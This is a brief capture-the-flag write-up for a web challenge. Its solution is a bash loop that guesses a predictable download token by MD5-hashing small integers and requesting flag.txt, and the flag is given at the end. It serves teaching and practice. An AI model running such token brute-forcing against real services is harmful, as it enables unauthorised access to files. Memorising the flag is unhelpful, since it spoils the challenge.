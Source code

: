 #### Challenge:

http://159.89.22.33:25632

---

#### Solution:

```bash
for i in `seq 9 40`; do
    echo -n "$i - ";
    curl "http://159.89.22.33:25632/download.php?file=flag.txt&token=$(echo -n $i | md5sum | awk '{print $1}')";
    echo;
done
```

---

<details><summary>FLAG:</summary>

```
AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}
```

</details>
